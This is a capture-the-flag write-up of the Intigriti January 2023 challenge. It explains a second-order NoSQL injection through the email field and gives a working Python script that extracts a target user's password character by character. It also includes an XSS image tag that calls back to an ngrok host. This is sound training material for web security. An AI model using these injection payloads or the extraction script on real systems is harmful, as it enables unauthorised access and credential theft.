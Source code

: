 ```yaml
---
Name: Intigriti January challenge (2023)
Authors: Samokosik and mrkcdl
Category: (No)SQL Injection
Link: https://challenge-0123.intigriti.io
---
```


## Challenge Description
>Hey there! I'm JacquesPhil and I bet I have more friends than you do! That's why I wrote this tool to prove it!

>Just input my name and be baffled by the amount of friends I have! I bet your name isn't even in here! That's because me and my friends are just way more noteworthy than you!

>One of my friends even works for Intigriti, and his password is the flag. But I'm not even worried. Somebody with less friends than me would never be able to hack this website!

>I also rollback the database every 15 minutes, that way I always have the most friends!

## Solution
Set username and password to XSS payload and get a callback to ngrok!
```html
<img src='http://078f-81-103-153-174.ngrok.io'>
```

No viable path, since no user will know to search for that string, let alone the target account (victim/admin/bot) 😆

Created user called `test` and then changed the email to `a%40a.com"` and get a 500 error when searching for `test`. Change it back to `a%40a.com` and the search function works again. 

Let's try a NoSQL injection payload `" || "1"=="1` which evaluates to `true`.
```txt
a%40a.com"+||+"1"%3d%3d"1
```

Search for `test` and it returns a user, probably the one we are looking for.
```json
{"username": "FrankSnys", "friends": 50}
```

Confirm by changing email to a condition that evaluates `false`.
```txt
a%40a.com"+||+"1"%3d%3d"2
```

Search for `test` and it returns `null`, therefore our injection is working! Now we need to extract the password for `FrankSnys` somehow 🤔

Created a solve script which loops through each char in user's passwords, checking against each printable character. Doing so also listed the available users and it turns out `PinkDraconian` was the target, as his password was `INTIGRITI{Y0uD1d1T}`

## Solve Script
Here's one to dump the flag from the target user 😎
```python
import requests
import string

url = 'https://challenge-0123.intigriti.io/'
username = 'cat'
password = 'crypto'
flag = 'INTIGRITI{'

# Create a session
session = requests.Session()

# Register user
response = session.post(url + 'login.html', data={'username': username, 'password': password})

while True:
    new_char = False
    for char in string.printable:

        # Update email (including our NoSQL payload)
        response = session.post(
            url + 'editor.html',
            data={
                'email': 'crypt@cat.hax"||this.username=="PinkDraconian"&&this.password[' + str(len(flag)) + ']=="' + char})

        # Perform search
        response = session.get(url + '/api/friends?q=' + username)

        # 'null' means char incorrect
        if response.status_code == 200 and response.text != 'null':
            new_char = True
            flag += char
            print('char: ' + char)
            break

    # End of the loop and no new char? Must have the flag!
    if not new_char or (new_char and char == '}'):
        break

# Print the flag :)
print('flag: ' + flag)
```

Could improve on the script using a binary search, e.g. [Blind SQLi binary search](https://github.com/Crypto-Cat/CTF/blob/main/web/DVWA/8-sqli.py) but I cba 😸 Here's an [awesome solution]( https://blog.huli.tw/2023/01/23/en/intigriti-0123-second-order-injection) using a ternary search to achieve the same goal with 185 requests, instead of ~600 🔥

## Resources
- [NullSweep: NoSQL Injection Cheatsheet](https://nullsweep.com/nosql-injection-cheatsheet)
- [HackTricks: Second Order SQLi](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap/second-order-injection-sqlmap)
- [PayloadsAllTheThings: NoSQL](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
